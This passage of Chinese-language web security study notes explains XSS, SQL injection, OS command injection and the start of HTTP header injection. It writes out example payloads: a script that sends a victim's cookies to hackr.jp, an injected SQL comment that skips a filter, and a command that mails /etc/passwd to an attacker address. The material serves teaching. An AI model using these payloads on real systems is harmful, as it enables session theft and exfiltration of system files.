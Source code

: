 - 篡改表单骗取用户信息;
- 窃取用户 storage;

```bash
# URL 非法导入 js 脚本
# 用户一旦点击该 URL, 发送自身 cookie 至指定网站
http://example.jp/login?ID="><script src=http://hackr.jp/xss.js></script>"

# xss.js
var content = escape(document.cookie);
document.write("<img src=http://hackr.jp/?");
document.write(content);
document.write(">");
```

#### sql 注入攻击

- 服务器拼接 sql 存在漏洞;
- 攻击者构造非法 sql;
- 非法访问服务器资源;

```bash
# 正常情况
http://example.com/search?q= 上野宣
SELECT * FROM bookTbl WHERE author = ' 上野宣 ' and flag = 1;

# 构造非法 sql
# 访问到不应该访问的权限
http://example.com/search?q= 上野宣 ' --
SELECT * FROM bookTbl WHERE author =' 上野宣 ' - -' and flag=1;
```

#### os 命令注入攻击

- 服务器执行系统命令存在漏洞;
- 攻击者构造非法命令;

```bash
# 服务器调用命令行穿在安全漏洞
my $adr = $q->param('mailaddress');
open(MAIL, "¦ /usr/sbin/sendmail $adr");
print MAIL "From: info@example.com\n";

# 攻击者构造非法
; cat /etc/passwd ¦ mail hack@example.jp

# 系统执行命令
# ; 视为命令之间的分隔符, 导致非法执行 cat 之后的命令
¦ /usr/sbin/sendmail ; cat /etc/passwd ¦ mail hack@example.jp
```

#### HTTP 首部注入攻击

- 被动攻击;
- 攻击者在首部字段插入换行符;
- 添加任意首部或主体;
